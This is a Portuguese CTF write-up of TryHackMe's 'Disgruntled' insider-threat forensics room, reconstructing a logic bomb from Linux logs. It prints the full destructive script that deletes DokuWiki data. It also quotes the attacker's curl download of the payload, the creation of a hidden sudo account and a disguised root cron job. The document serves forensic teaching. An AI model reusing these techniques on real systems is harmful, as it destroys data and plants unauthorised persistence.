










# 🔍 Disgruntled — CTF Writeup
### TryHackMe Room | Digital Forensics · Linux Forensics (auth.log, `.bash_history`, crontab) — Insider Threat / Logic Bomb

---

| **Analista**          | Mauricio Robert                                                                              |
|-----------------------|----------------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                            |
| **Data do Relatório** | 09/10/2026                                                                                   |
| **Data do Incidente** | 28/12/2022 (06:17 – 07:14 UTC) · gatilho diário às 08:00                                     |
| **Classificação**     | CONFIDENCIAL                                                                                 |
| **Ferramentas**       | `grep` · `cat` · `ls -la --full-time` · `/var/log/auth.log*` · `.bash_history` · `/etc/crontab` |
| **Host Analisado**    | Ubuntu (Linux) — máquina do lab `Disgruntled_1-1--badr`                                      |

---

## 🔍 Resumo Executivo

O desafio **Disgruntled** (TryHackMe) é um caso de **ameaça interna**: um funcionário de TI insatisfeito, que usava a conta **`cybert`**, preparou uma **bomba lógica** no servidor do cliente antes de sair. Pelos logs de autenticação (`/var/log/auth.log.1`), ele instalou o **DokuWiki** (`/usr/bin/apt install dokuwiki`, a partir de `/home/cybert`) — o serviço que realmente deveria instalar —, mas em seguida criou o usuário oculto **`it-admin`** (06:26:52), concedeu a ele privilégios `sudo` editando o **sudoers com `visudo`** às **06:27:34** e usou essa conta para abrir o script **`bomb.sh`** no **`vi`** (06:29:14). O `.bash_history` do `it-admin` revela o download do script com **`curl 10.10.158.38:8080/bomb.sh --output bomb.sh`**, a **remoção** (`rm bomb.sh`) e a edição do **`/etc/crontab`**. O script foi renomeado e movido para **`/bin/os-update.sh`** (modificado em **Dec 28 06:29**), disfarçado de rotina de atualização do SO, e é executado como `root` **todos os dias às 08:00 AM**. Se o `it-admin` **não tiver feito login nos últimos 90 dias**, o script **apaga `/var/lib/dokuwiki`** e cria **`/goodbye.txt`** com uma mensagem de vingança assinada "*mistermeist3r*". A investigação respondeu a **dez questões técnicas**.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                              | Finalidade                                                                                                   |
|-----------------------------------------|--------------------------------------------------------------------------------------------------------------|
| **`grep sudo /var/log/auth.log*`**      | Filtrar comandos privilegiados (linhas `sudo: ... COMMAND=`) — base das tarefas 3 a 5                         |
| **`grep useradd` / `adduser`**          | Identificar criação de usuários e grupos (`useradd[PID]: new user: name=...`)                                 |
| **`grep visudo` / `grep vi`**           | Localizar edição do sudoers e abertura de scripts com o editor `vi`                                           |
| **`cat /home/it-admin/.bash_history`**  | Reconstruir os comandos digitados pelo usuário `it-admin`                                                    |
| **`cat /etc/crontab`**                  | Descobrir a tarefa agendada maliciosa e seu horário                                                          |
| **`ls -la --full-time`**                | Obter a data/hora exata de modificação do arquivo (`mtime`)                                                  |
| **`cat /bin/os-update.sh`**             | Ler o conteúdo do script malicioso                                                                           |

> **Nota:** o terminal do lab estava logado como `root` (`root@ip-10-65-152-55`), com os logs da máquina investigada em `/var/log/auth.log` e `/var/log/auth.log.1`. Os *hostnames* dos eventos mudam (`ip-10-10-158-38`, `ip-10-10-168-55`) porque o log foi capturado em instâncias diferentes do lab.

---

## 📋 Perguntas e Respostas

### Q1 — O usuário instalou um pacote na máquina com privilégios elevados. Segundo os logs, qual é o COMMAND completo?

> **Resposta: `/usr/bin/apt install dokuwiki`**

**Solução:** Em `/var/log/auth.log.1`, filtrando por `sudo`, a linha de 28/12 mostra o usuário **`cybert`** executando o `apt` como `root`:

```
Dec 28 06:17:30 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
Dec 28 06:17:30 ip-10-10-168-55 sudo: pam_unix(sudo:session): session opened for user root by cybert(uid=0)
```

Há várias tentativas em sequência (06:17:30, 06:19:01) intercaladas com `rm /var/lib/dpkg/lock`, `dpkg --configure -a` e `lsof /var/lib/dpkg/lock` — o usuário lutou contra o *lock* do `dpkg` antes de a instalação funcionar. Depois, configurou o DokuWiki (`chown www-data`, `ln -s`, `nano /etc/apache2/sites-available/dokuwiki.conf`, `a2ensite dokuwiki`, `systemctl reload apache2`): tudo coerente com a tarefa legítima do TI.



---

### Q2 — Qual era o diretório de trabalho atual (PWD) quando o comando anterior foi executado?

> **Resposta: `/home/cybert`**

**Solução:** O campo `PWD=` da mesma linha do `sudo` informa o diretório de onde o comando foi disparado:

```
cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
```

O `PWD` é **`/home/cybert`** — o *home* do próprio usuário. O mesmo `PWD` aparece em todos os comandos subsequentes de `cybert` (inclusive no `adduser it-admin`).



---

### Q3 — Qual usuário foi criado depois que o pacote da tarefa anterior foi instalado?

> **Resposta: `it-admin`**

**Solução:** Filtrando `useradd`/`adduser` em `/var/log/auth.log.1`, após a instalação do DokuWiki:

```
Dec 28 06:26:52 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/adduser it-admin
Dec 28 06:26:53 ip-10-10-168-55 useradd[15328]: new user: name=it-admin, UID=1002, GID=1002, home=/home/it-admin, shell=/bin/bash
```

O `cybert` rodou **`adduser it-admin`** às 06:26:52 e o usuário **`it-admin`** (UID/GID 1002) foi criado um segundo depois. O nome parece uma conta administrativa legítima, mas foi criada **sem relação com a tarefa** do TI (instalar apenas o serviço).

> **Contexto (22/12):** o `ubuntu` (UID 1000, grupos `sudo`, `adm`, `lxd`…) criou `cybert` (UID 1001) com `sudo useradd -m cybert -s /bin/bash` às 07:58:09 e redefiniu a senha com `passwd cybert` às 07:58:14.



---

### Q4 — Um usuário recebeu privilégios de sudo. Quando o arquivo sudoers foi atualizado? (formato: Month Day HH:MM:SS)

> **Resposta: `Dec 28 06:27:34`**

**Solução:** O `visudo` é o editor seguro do `/etc/sudoers`. Filtrando por ele no `auth.log.1`:

```
$ grep sudo /var/log/auth.log.1 | grep visudo
Dec 22 07:58:24 ip-10-10-158-38 sudo:  ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:27:34 ip-10-10-168-55 sudo:  cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
```

Duas execuções: a de **22/12 07:58:24** (`ubuntu`, setup inicial do `cybert`) e a de **28/12 06:27:34** (`cybert`), **42 segundos depois** da criação do `it-admin` (06:26:52) — é aí que o `it-admin` ganha `sudo`. A resposta pedida é a segunda: **`Dec 28 06:27:34`**.



---

### Q5 — Um arquivo de script foi aberto com o editor "vi". Qual o nome desse arquivo?

> **Resposta: `bomb.sh`**

**Solução:**

```
$ grep sudo /var/log/auth.log.1 | grep vi
Dec 28 06:29:14 ip-10-10-168-55 sudo:  it-admin : TTY=pts/0 ; PWD=/home/it-admin ; USER=root ; COMMAND=/usr/bin/vi bomb.sh
```

Às **06:29:14**, apenas dois minutos depois de ganhar `sudo`, o **`it-admin`** abriu **`bomb.sh`** (no seu *home*, `PWD=/home/it-admin`) com o `vi` como `root`. A sessão fechou às 06:29:52. O nome do arquivo já denuncia a intenção.



---

### Q6 — Qual foi o comando usado para criar o arquivo `bomb.sh`?

> **Resposta: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`**

**Solução:** Como o `it-admin` é um usuário real com *shell*, o `.bash_history` dele guarda tudo que digitou:

```
$ cd /home/it-admin && ls -la
-rw-------  1 it-admin it-admin  177 Dec 28  2022 .bash_history
-rw-r--r--  1 it-admin it-admin  220 Dec 28  2022 .bash_logout
-rw-r--r--  1 it-admin it-admin 3771 Dec 28  2022 .bashrc
-rw-r--r--  1 it-admin it-admin  807 Dec 28  2022 .profile
-rw-------  1 root     root      879 Dec 28  2022 .viminfo      <-- criado pelo "sudo vi" (dono root)

$ cat .bash_history
whoami
curl 10.10.158.38:8080/bomb.sh --output bomb.sh     <-- cria o arquivo
ls
ls -la
cd ~/
curl 10.10.158.38:8080/bomb.sh --output bomb.sh     <-- repetido (do home)
sudo vi bomb.sh
ls
rm bomb.sh                                          <-- apaga o original
sudo nano /etc/crontab
exit
```

O script foi **baixado** (não escrito à mão) de um servidor HTTP em **`10.10.158.38:8080`**. O `.viminfo` de propriedade do `root` (879 bytes) comprova o uso de `sudo vi`. O `rm bomb.sh` explica por que "o arquivo não existe mais" no diretório.

> **Observação:** o IP `10.10.158.38` coincide com o *hostname* `ip-10-10-158-38` dos eventos de 22/12 (setup do `cybert`); vale investigar essa máquina como origem/estágio do script.



---

### Q7 — O arquivo foi renomeado e movido para outro diretório. Qual é o caminho completo dele agora?

> **Resposta: `/bin/os-update.sh`**

**Solução:** Depois do `rm bomb.sh`, o `it-admin` abriu o `/etc/crontab` (`sudo nano /etc/crontab`). Lendo o crontab:

```
$ cat /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
0 8     * * *   root    /bin/os-update.sh          <-- entrada adicionada
#
```

As quatro primeiras linhas são o padrão do Ubuntu; a última (`0 8 * * * root /bin/os-update.sh`) foi **adicionada**. O nome **`os-update.sh`**, em **`/bin`**, é camuflagem: parece uma rotina legítima de atualização do sistema.

> O `mv bomb.sh /bin/os-update.sh` **não aparece** no `.bash_history` (o `exit` pode ter sido dado antes da gravação, ou o comando foi executado sem registro). A conclusão vem do crontab e do conteúdo do `/bin/os-update.sh` (Q10).



---

### Q8 — Quando o arquivo da questão anterior foi modificado pela última vez? (formato: Month Day HH:MM)

> **Resposta: `Dec 28 06:29`**

**Solução:**

```
$ ls -la --full-time /bin/os-update.sh
-rw-r--r-- 1 root root 325 2022-12-28 06:29:43.998004273 +0000 /bin/os-update.sh
```

O *mtime* é **2022-12-28 06:29:43** — exatamente **dentro da janela da sessão do `vi`** (aberta às 06:29:14 e fechada às 06:29:52, Q5). Ou seja: o conteúdo final do script foi salvo no `vi` às 06:29:43 e, como o `mv` preserva o *mtime*, esse horário permaneceu após a renomeação. No formato pedido: **`Dec 28 06:29`**.



---

### Q9 — Qual o nome do arquivo que será criado quando o arquivo da primeira pergunta for executado?

> **Resposta: `goodbye.txt`** (`/goodbye.txt`)

**Solução:** Lendo o script malicioso:

```bash
$ cat /bin/os-update.sh
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" > /goodbye.txt
fi
```

**Lógica da bomba:**
1. `last -n 1 it-admin -s "-90days"` consulta o último login do `it-admin` nos **últimos 90 dias**.
2. Se **não houver nenhum** (`-z "$OUTPUT"`), o `rm -r /var/lib/dokuwiki` **apaga todos os dados do wiki** (a recompensa do atacante).
3. Em seguida cria **`/goodbye.txt`** com a mensagem de vingança, assinada **`-mistermeist3r`**.

É um *"dead man's switch"*: a bomba só dispara se o atacante **parar de fazer login** (por exemplo, depois de ser demitido). Os comentários de "histórico de versões" (2022-06-05, 2022-10-11, 2022-10-15) são **falsos**, escritos para dar aparência legítima — o arquivo foi criado em 28/12/2022.



---

### Q10 — A que horas o arquivo malicioso será disparado? (formato: HH:MM AM/PM)

> **Resposta: `08:00 AM`**

**Solução:** A entrada do crontab é:

```
0 8 * * *   root    /bin/os-update.sh
```

Campos: minuto **0**, hora **8**, qualquer dia do mês/mês/dia da semana, usuário **`root`**. Executa **todos os dias às 08:00 AM** como `root`. Portanto, a bomba "verifica" diariamente, e na primeira manhã em que o `it-admin` estiver há mais de 90 dias sem logar, ela detona.



---

## ⛓ Linha do Tempo — Reconstrução da Atividade

```
[22/12  07:56:12]  Usuário ubuntu (UID 1000) criado com grupos sudo, adm, lxd...
    ↓
[22/12  07:58:09]  ubuntu: sudo useradd -m cybert -s /bin/bash   → cybert (UID 1001)
[22/12  07:58:14]  ubuntu: sudo passwd cybert
[22/12  07:58:24]  ubuntu: sudo visudo
    ↓
[28/12  06:17:30]  cybert: sudo apt install dokuwiki (PWD=/home/cybert)       ← tarefa legítima
[28/12  06:18–06:22]  cybert: rm dpkg lock · dpkg --configure -a · chown www-data
                      · ln -s · nano apache2 dokuwiki.conf · a2ensite · systemctl reload apache2
    ↓
[28/12  06:26:52]  cybert: sudo adduser it-admin
[28/12  06:26:53]  useradd: new user it-admin (UID 1002, /home/it-admin, /bin/bash)
    ↓
[28/12  06:27:34]  cybert: sudo visudo   ← it-admin ganha sudo
    ↓
[28/12  06:29:14]  it-admin: sudo vi bomb.sh        (script baixado de 10.10.158.38:8080)
[28/12  06:29:43]  /bin/os-update.sh salvo (mtime)  ← renomeado/movido de bomb.sh
[28/12  06:29:52]  sessão do vi encerrada;  rm bomb.sh
    ↓
[28/12  06:30:10]  it-admin: sudo nano /etc/crontab  → "0 8 * * * root /bin/os-update.sh"
    ↓
[28/12  07:01:22 / 07:01:30]  cybert: sudo passwd root (2×)
[28/12  07:14:07]  cybert: sudo nano /etc/ssh/sshd_config
[28/12  07:14:27]  cybert: sudo service sshd restart
    ↓
[Todo dia  08:00]  cron → /bin/os-update.sh como root
                   se it-admin sem login há 90 dias: rm -r /var/lib/dokuwiki + /goodbye.txt
```

> As últimas ações do `cybert` (troca da senha do `root` e alteração do `sshd_config` com restart do SSH) estão **fora das perguntas**, mas reforçam a persistência/controle de acesso e devem entrar no escopo da resposta ao incidente.

---

## 🗺 Mapeamento Investigativo

| Pergunta | Fonte de Evidência | Artefato |
|----------|--------------------|----------|
| Comando de instalação do pacote | `/var/log/auth.log.1` (`grep sudo`) | `/usr/bin/apt install dokuwiki` |
| PWD do comando | `/var/log/auth.log.1` (campo `PWD=`) | `/home/cybert` |
| Usuário criado depois | `/var/log/auth.log.1` (`adduser` / `useradd`) | `it-admin` |
| Atualização do sudoers | `/var/log/auth.log.1` (`grep visudo`) | `Dec 28 06:27:34` |
| Script aberto no vi | `/var/log/auth.log.1` (`grep vi`) | `bomb.sh` |
| Comando que criou o bomb.sh | `/home/it-admin/.bash_history` | `curl 10.10.158.38:8080/bomb.sh --output bomb.sh` |
| Novo caminho do arquivo | `/etc/crontab` | `/bin/os-update.sh` |
| Última modificação | `ls -la --full-time /bin/os-update.sh` | `Dec 28 06:29` (06:29:43) |
